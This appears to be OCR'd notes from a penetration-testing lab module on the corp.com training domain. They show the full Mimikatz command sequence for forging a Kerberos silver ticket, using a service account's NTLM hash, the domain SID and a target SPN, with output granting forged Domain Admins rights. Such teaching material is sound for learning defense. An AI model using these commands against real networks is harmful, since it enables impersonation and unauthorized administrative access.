 # The NTLM hash of the service account is the first piece of information we need to create the silver ticket.
# Now, let's obtain the domain SID, the second piece of information we need. We can enter whoami /user to get the SID of the current user. Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain.

PS C:\Users\jeff> whoami /user
...
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
...

# As covered in the Windows Privilege Escalation Module, the SID consists of several parts. Since we're only interested in the Domain SID, we'll omit the RID of the user.
S-1-5-21-1987370270-658905905-1781884369

# The last list item is the target SPN. For this example, we'll target the HTTP SPN resource on WEB04 (HTTP/web04.corp.com:80) because we want to access the web page running on IIS.

# Now that we can build the command to create a silver ticket with Mimikatz
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
...
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 5/20/2024 2:42:46 AM ; 5/18/2034 2:42:46 AM ; 5/18/2034 2:42:46 AM
...

# a new service ticket for the SPN HTTP/web04.corp.com has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket. From the perspective of the IIS application, the current user will be both the built-in local administrator ( Relative Id: 500 ) and a member of several highly-privileged groups, including the Domain Admins group ( Relative Id: 512 ) as highlighted above.
PS C:\Tools> klists
...
Cached Tickets: (1)
#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
...
